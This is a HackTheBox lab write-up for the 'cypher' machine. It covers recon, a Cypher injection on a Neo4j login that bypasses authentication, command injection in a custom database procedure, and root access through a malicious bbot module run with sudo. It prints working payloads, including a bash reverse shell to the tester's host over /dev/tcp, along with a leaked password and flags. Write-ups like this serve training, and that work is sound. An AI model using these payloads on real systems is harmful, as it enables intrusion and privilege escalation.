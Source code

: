 ```yaml
---
layout: post
title: HTB - cypher
date: 2025-07-25 17:18 -0400
---
```


| {{ 'cypher' | machine_img }} | Medium linux box. Starts with a cypher injection on neo4j. Then we escalete using a custom db procedure. After that there is a password leak on `~/.bash_history`. Ending by abusing a feature from a bug bouny tool to get to root. |

## nmap
shows just 2 ports:

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2025-03-03 10:05 -04
Nmap scan report for 10.10.11.57
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 be68db828e6332455446b7087b3b52b0 (ECDSA)
|_  256 e55b34f5544393f87eb6694cacd63d23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cypher.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## subdomain bruteforce
no other subdomains found:

```bash
ffuf -u http://$(cat ip.txt)/ -H 'Host: FUZZ.cypher.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fs 154

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.57/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.cypher.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: all
 :: Filter           : Response size: 154
________________________________________________

:: Progress: [5893/5893] :: Job [1/1] :: 100 req/sec :: Duration: [0:00:59] :: Errors: 0 ::
----------------------------------------------------------------------------------------------------------------
```

## 404 page is from nginx
![cypher1](/assets/img/cypher1.png)

## cypher.htb - main website - port 80
It's an attack surface management platform.
The only features are a login page and some description for the platform.

![cypher3](/assets/img/cypher3.png)
![cypher5](/assets/img/cypher5.png)
![cypher4](/assets/img/cypher4.png)

There is an injection on the login page.
![cypher6](/assets/img/cypher6.png)

Looking at the error shows that it is using neo4j. Neo4j is a graph database, it is also used by bloodhound. This is the query being used:

`"MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = '<injection point>' return h.value as hash"`

The first thing that comes to mind is to try and leak the password hash and crack it.
Leaked the hash but it doesn't crack:

`9f54ca4c130be6d529a56dee59dc2b2090e43acf`

We actually need to return a hash that we know the value of:
```json
{
    "username": "' OR 1=1 return '7a8493ebf7f3a5d09388516a0e063a133590c0c5' as hash;//",
    "password": "graphasm"
}
```

Interesting feature, it just runs every query and prints the output:
![cypher8](/assets/img/cypher8.png)

Database version, no known cves:
```json
[{
    "name": "Neo4j Kernel",
    "versions": ["5.24.1"],
    "edition": "community"
}]
```

Custom procedure stands out after doing some recon on the db:
```json
...
{
    "name": "custom.getUrlStatusCode",
    "description": "Returns the HTTP status code for the given URL as a string",
    "mode": "READ",
    "worksOnSystem": false
},
...
```

It has a full read ssrf with:
![cypher9](/assets/img/cypher9.png)

But lfi doesn't work:
![cypher10](/assets/img/cypher10.png)

The procedure is actually vulnerable to command injection:

`call custom.getUrlStatusCode("; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.37/4444 0>&1'")`

That gives us the `neo4j` user.

## neo4j
Users with a shell:
```bash
neo4j@cypher:~$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
graphasm:x:1000:1000:graphasm:/home/graphasm:/bin/bash
neo4j:x:110:111:neo4j,,,:/var/lib/neo4j:/bin/bash
```

Password leaked in .bash_history
```bash
neo4j@cypher:~$ ls -la
total 52
drwxr-xr-x 11 neo4j adm   4096 Feb 17 16:39 .
drwxr-xr-x 50 root  root  4096 Feb 17 16:48 ..
-rw-r--r--  1 neo4j neo4j   63 Oct  8  2024 .bash_history
drwxrwxr-x  3 neo4j adm   4096 Oct  8  2024 .cache
drwxr-xr-x  2 neo4j adm   4096 Aug 16  2024 certificates
drwxr-xr-x  6 neo4j adm   4096 Oct  8  2024 data
drwxr-xr-x  2 neo4j adm   4096 Aug 16  2024 import
drwxr-xr-x  2 neo4j adm   4096 Feb 17 16:24 labs
drwxr-xr-x  2 neo4j adm   4096 Aug 16  2024 licenses
-rw-r--r--  1 neo4j adm     52 Oct  2  2024 packaging_info
drwxr-xr-x  2 neo4j adm   4096 Feb 17 16:24 plugins
drwxr-xr-x  2 neo4j adm   4096 Feb 17 16:24 products
drwxr-xr-x  2 neo4j adm   4096 Jul 22 14:43 run
lrwxrwxrwx  1 neo4j adm      9 Oct  8  2024 .viminfo -> /dev/null
neo4j@cypher:~$ cat .bash_history
neo4j-admin dbms set-initial-password cU4btyib.20xtCMCXkBmerhK
```

Works for the `graphasm` user.

## graphasm
```bash
neo4j@cypher:~$ su - graphasm
Password:
graphasm@cypher:/tmp/tmp.LwLeWWmVnY$ cat ~/user.txt
b36e2***************************
```

`graphasm` can run `bbot` as root.
```bash
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

[bbot](https://github.com/blacklanternsecurity/bbot) is a recon tool that integrates a lot of different ones. It is used for recon and bug bounties.


Some of the tools it integrates, like `ffuf`, have a command execution feature:
```bash
# creates the file "a" with content 123
ffuf -u http://example.com/FUZZ -input-cmd "echo 123 > a"
```

I couldn't find any way to escalate through that though.

You can add new custom modules with `bbot -p`. And those modules can execute arbitrary python code. So we just take the original `defaults.yml` change `module_dirs: []` to the path of a new module and do something like:
```python
class A:
    pass

class attack(A):
    flags = []
    watched_events = []
    produced_events = []
    meta = {}

    def __init__(self, a):
        pass

    def _setup(self):
        import subprocess
        subprocess.run("cat /root/root.txt > /tmp/123", shell=True)
        return True
```

```bash
graphasm@cypher:/tmp/tmp.LwLeWWmVnY$ sudo bbot -p ./defaults.yml -m attack -d --no-deps
graphasm@cypher:/tmp/tmp.LwLeWWmVnY$ cat /tmp/123
4a2ecff1330fa5e3932f430c0b8ed9f3
```
